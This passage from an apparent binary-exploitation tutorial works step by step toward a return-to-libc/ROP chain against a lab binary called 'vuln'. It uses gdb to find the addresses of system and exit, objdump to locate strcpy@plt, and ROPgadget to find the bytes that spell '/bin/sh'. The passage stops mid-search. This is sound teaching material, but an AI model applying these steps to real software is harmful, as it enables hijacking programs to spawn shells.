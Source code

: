 We have address where writing: 0x0804a018.  
`(gdb) p system  
$1 = {<text variable, no debug info>} 0xf7e01f80 <system>  
(gdb) p exit  
$2 = {<text variable, no debug info>} 0xf7df4f10 <exit>  
[...]  
$ objdump -d -j .plt vuln | grep strcpy  
08048370 <strcpy@plt>:`  
In libc.so.6 we can indeed find a string /bin/sh, but do not want to do that easy, right?

Let’s just stick to our binary.

We can use ROPgadget with `--string` option to find chains  
`$ python2.7 ROPgadget/ROPgadget.py --binary vuln --string /  
Strings information  
============================================================  
0x08048154 : /  
0x08048158 : /`

$ python2.7 ROPgadget/ROPgadget.py –binary vuln –string b  
Strings information  
\============================================================  
0x08048157 : b  
0x0804824f : b  
0x08048276 : b  
0x080482a6 : b  
0x080482cf : b

$ python2.7 ROPgadget/ROPgadget.py –binary vuln –string i  
Strings information  
\============================================================  
0x08048156 : i  
0x0804815d : i  
0x0804824e : i  
0x0804825e : i  
0x08048275 : i  
0x08048281 : i  
0x08048298 : i  
0x080482c1 : i  
0x080482f5 : i  
0x080482f6 : i

$ python2.7 ROPgadget/ROPgadget.py –binary vuln –string n  
Strings information  
\============================================================  
0x0804815e : n  
0x0804825f : n  
0x08048282 : n  
0x080482a2 : n  
0x080482af : n  
0x080482cb : n

$ python2.7 ROPgadget/ROPgadget.py –binary vuln –string bi  
Strings information  
\============================================================
